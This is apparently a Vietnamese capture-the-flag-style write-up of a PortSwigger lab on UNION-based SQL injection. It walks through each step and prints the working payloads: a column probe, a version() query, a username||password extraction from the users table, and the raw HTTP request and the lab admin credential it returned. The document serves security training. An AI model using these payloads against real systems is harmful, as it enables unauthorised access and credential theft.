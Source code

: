 # Write-up: SQL Injection UNION Attack, Retrieving Multiple Values in a Single Column

### Tổng quan 
Write-up này ghi lại quá trình giải bài lab SQL Injection trên PortSwigger Web Security Academy tập trung vào việc khai thác SQL injection bằng tấn công UNION để lấy username và password từ bảng users 

### Mục tiêu
Trích xuất tất cả username và password sau đó đăng nhập với tài khoản administrator 

### Công cụ sử dụng
- Burpsuite Community
- FireFox Browser 

### Các bước thực hiện 
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) và thêm `'` để kích hoạt lỗi SQL:
   - **Kết quả**: Lỗi SQL xuất hiện, xác nhận lỗ hổng.
   ![1](./images/sql_error.png)

- Sử dụng BurpSuite để kiểm tra số cột với payload:
    ```
    filter?category=Gifts'+UNION+SELECT+NULL,NULL--
    ```
  - **Kết quả**: Xác định 2 cột.
- Xác định số Cột hiển thị chuỗi bằng:
  ```
  Payload:
  filter?category=Gifts'+UNION+SELECT+'test',NULL--

  ->Internal Server Error
  ```

  ```
  Payload:
  filter?category=Gifts'+UNION+SELECT+NULL,'test'--

  -> Cột 2 hiển thị kết quả trả về
  ```
2. **Tạo Payload**
- Kiểm tra version của web để xác định kiểu String concatenation
    ```
    filter?category=Gifts'+UNION+SELECT+NULL,+version()--

    -> PostgreSQL 12.22 (Ubuntu 12.22-0ubuntu0.20.04.2) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit
    ```

- Tạo payload UNION để nối username và password:
    ```
    'UNION SELECT NULL, username || '~' || password FROM users--
    ```

3. **Khai thác (Exploitation)**
- Gửi payload qua Burp Repeater:
    ```
    GET /filter?category=Gifts'UNION+SELECT+NULL,+username+||+'~'+||+password+FROM+users-- HTTP/2
    ```
    - **Kết quả**: Lấy được `administrator~g5qqbext2s584y1e0i1g`
    ![1](./images/result.png)

- Đăng nhập lại `/login` với thông tin trên, hoàn thành lab.
  ![1](./images/login_success.png)

### Bài học rút ra
- Nâng cao kĩ năng UNION để trích xuất dữ liệu đa cột.
- Tối ưu hóa BurpSuite trong khai thác SQLi

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: UNION Attacks

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng SQL injection và sử dụng Burp Suite. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.